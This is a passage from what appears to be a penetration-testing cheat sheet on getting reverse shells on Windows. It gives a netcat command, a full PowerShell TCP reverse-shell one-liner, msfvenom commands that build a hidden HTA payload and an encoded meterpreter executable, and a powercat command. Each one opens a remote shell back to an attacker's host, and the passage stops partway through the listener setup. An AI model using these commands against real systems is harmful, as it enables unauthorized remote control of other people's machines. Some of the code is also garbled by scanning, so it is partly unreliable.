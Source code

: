 ```
nc.exe -e powershell.exe [IP] [PORT]
```

> Be careful, **migrate** the process to the same machine architecture!

## Powershell

Also we can get a reverse shell without using any external file.

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('ip-addr',port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.T ext.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII ).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$c lient.Close()"
```

We can also use `msfvenom hta-psh` reverse shell.

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f hta-psh
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 6638 bytes
<script language="VBScript">
  window.moveTo -4000, -4000
  Set bwtVGMW = CreateObject("Wscript.Shell")
  Set tycIa5Pq = CreateObject("Scripting.FileSystemObject")
  For each path in Split(bwtVGMW.ExpandEnvironmentStrings("%PSModulePath%"),";")
    If tycIa5Pq.FileExists(path + "\..\powershell.exe") Then
      bwtVGMW.Run "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAO....
```

## Powercat

Powercat is the netcat version written in powershell. Remember first download the script and import the module.

```
powercat -c ip-addr -p port -e cmd.exe
```

## Meterpreter

First, we need to create our _shellcode_ with **msfvenom**:

```
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 --encoder x86/shikata_ga_nai -f exe LHOST=[IP] LPORT=[PORT] > meterpreter.exe
```

After transfer our _shellcode_ to the target machine, we will **start listening** with metasploit at the same port:
